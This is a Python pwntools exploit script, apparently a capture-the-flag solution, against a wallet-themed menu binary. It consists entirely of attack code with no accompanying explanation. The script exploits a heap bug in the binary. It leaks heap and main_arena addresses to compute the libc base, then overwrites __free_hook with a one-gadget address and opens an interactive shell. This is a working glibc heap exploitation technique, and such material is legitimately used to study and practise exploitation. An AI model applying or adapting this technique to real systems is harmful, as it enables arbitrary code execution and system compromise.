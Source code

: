   ```python
  
  def dev(idx, balance):
  	con.sendlineafter("choice : ", "6")
  	con.sendlineafter("input wallet no : ", str(idx))
  	con.sendlineafter("new eth : ", balance)
  
  if debug:
  	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  	oneshot = 0x4f2c5
  else:
  	libc = ELF("./libc-2.27.so")
  	oneshot = 0x10a38c
  
  create(0x1000)
  create(0x80)
  
  withdraw(0, 0x1000)
  withdraw(1, 0x80)
  withdraw(1, 0x00)
  
  leak = show().split("\n")
  heap = int(leak[2].split(", ballance ")[1])
  main_arena = int(leak[1].split(", ballance ")[1]) - 96
  libc_base = main_arena - (libc.symbols["__malloc_hook"] + 0x10)
  free_hook = libc_base + libc.symbols["__free_hook"]
  oneshot = libc_base + oneshot
  print "heap: {:016x}".format(heap)
  print "main_arena: {:016x}".format(main_arena)
  print "libc: {:016x}".format(libc_base)
  print "free_hook: {:016x}".format(free_hook)
  print "oneshot: {:016x}".format(oneshot)
  
  dev(1, p64(free_hook))
  
  create(0x80)
  
  dev(2, p64(oneshot))
  
  withdraw(0, main_arena + 96)
  
  con.interactive()
  ```

  